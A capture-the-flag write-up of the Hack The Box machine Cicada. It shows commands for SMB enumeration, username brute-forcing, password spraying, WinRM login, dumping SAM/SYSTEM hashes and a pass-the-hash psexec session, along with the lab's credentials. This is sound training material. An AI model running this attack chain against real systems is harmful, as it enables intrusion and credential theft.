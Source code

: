 # Cicada Writeup - by Thammanant Thamtaranon  
- Cicada is an easy Windows machine hosted on Hack The Box.

## Reconnaissance  
- I started with a full TCP port scan including service/version detection and OS fingerprinting:
```bash
nmap -A -T4 -Pn -p- 10.10.11.35
```
![Nmap_Scan1](Nmap_Scan1.png)  
![Nmap_Scan2](Nmap_Scan2.png)  
- The scan showed multiple open ports:  
  - 53 (DNS)  
  - 88 (Kerberos)  
  - 135, 139, 445 (MSRPC, NetBIOS, SMB)  
  - 389, 636, 3268, 3269 (LDAP / LDAPS / Global Catalog)  
  - 464 (kpasswd5)  
  - 593 (RPC)  
  - 5985 (WinRM)  

- I added `cicada.htb` and `CICADA-DC.cicada.htb` to `/etc/hosts` for proper hostname resolution.

## Scanning & Enumeration  
- We enumerated SMB shares:
```bash
smbclient -L \\cicada.htb\\ -N
```
![SMB](SMB.png)  
- We tried to connect to `DEV` but could not list its directory. We then tried `HR` and found `Notice from HR.txt`.  
- After inspecting the file, we found the default password.  
![Message](Message.png)  
- To find usernames, I ran:
```bash
netexec smb 10.10.11.35 -u guest -p '' --rid-brute | grep "SidTypeUser" | awk -F'\' '{print $NF}' | awk '{print $1}' | sort -u > users.txt
```
![Users](Users.png)  
- Now that we had the users list, we checked LDAP credentials:  
```bash
netexec ldap 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```
![Credential](Credential.png)  
- We then enumerated LDAP further:  
```bash
netexec ldap CICADA-DC.cicada.htb -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```
- We found a password for user `david.orelious`.  
![David](David.png)  
- We tried using `netexec winrm` for `david.orelious` but failed. We then connected to `DEV` directory in SMB as `david.orelious` and found `Backup_script.ps1` which contained credentials for `emily.oscars`.  
![DEV](DEV.png)  
![Script](Script.png)  
- We then checked SMB access for `emily.oscars` and confirmed that this user could read the `ADMIN$` directory.  
![Emily](Emily.png)

## Exploitation  
- We connected to the machine using `evil-winrm`:  
```bash
evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```
![Shell](Shell.png)  
- We then captured the user flag.

## Privilege Escalation  
- We checked privileges and groups using `whoami /priv` and `whoami /groups`  
![Priv](Priv.png)  
- The interesting privileges we found were:  
  - `SeBackupPrivilege` (allows reading any file ignoring ACLs, even SYSTEM files)  
  - `SeRestorePrivilege` (allows writing to any file ignoring ACLs, useful for overwriting executables)  
- We downloaded `SAM` and `SYSTEM` files to extract Windows password hashes:  
```bash
impacket-secretsdump -sam sam -system system LOCAL
```
![SAM_SYSTEM](SAM_SYSTEM.png)  
![Hashes](Hashes.png)  
- We then used `impacket-psexec` with the extracted hash:  
```bash
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341 administrator@10.10.11.35
```
- Finally, we obtained a SYSTEM shell and captured the root flag.  
![Root](Root.png)
